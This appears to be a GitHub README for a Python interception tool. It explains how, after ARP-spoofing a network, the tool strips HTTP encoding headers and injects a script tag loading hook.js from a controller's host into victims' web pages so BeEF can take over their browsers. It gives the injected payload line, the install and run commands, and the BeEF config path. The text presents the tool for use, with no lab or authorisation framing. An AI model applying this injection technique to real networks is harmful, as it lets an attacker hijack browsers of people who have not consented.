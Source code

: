 # Web hooking
After establishing MITM connection (e.g. using ARP spoofing), looking at all the HTTP requests, the program removes HTTP <code>Accept-Encoding</code> header so the response HTML load will not be encrypted. The program inserts the javascript code, <code><script src="http://10.0.2.15:3000/hook.js"></script></code>, in the HTML load of the HTTP response as a script. The addition of the lines of code are performed by replacing <code></body></code>. The specified IP address is the one of the machine that runs the program or some remote machine whom you have control. Then the program modifies the <code>Content-Length</code> value w.r.t. performed HTML changes. After this phase, you can use BeEf, to insert code or manage actions on remote victim browser.
To use this Interceptor, you need to install the following modules for python3, through this command:
<pre lang="bash"><code>apt install beef-xss build-essential python3 libnetfilter-queue-dev</code></pre>
<pre lang="bash"><code>pip3 install termcolor argparse</code></pre>
To run the program, you need to type for example this command on bash:
<pre lang="bash"><code>python3 hook_method.py</code></pre>
To check which parameters you can insert, you can type the command:
<pre lang="bash"><code>python3 code_interceptor.py --help </code></pre>
The program must run with superuser privileges and can work only on HTTP web pages.
For management of BeEF credentials, you can manage the file:
<pre lang="bash"><code>/usr/share/beef-xss/config.yaml</code></pre>
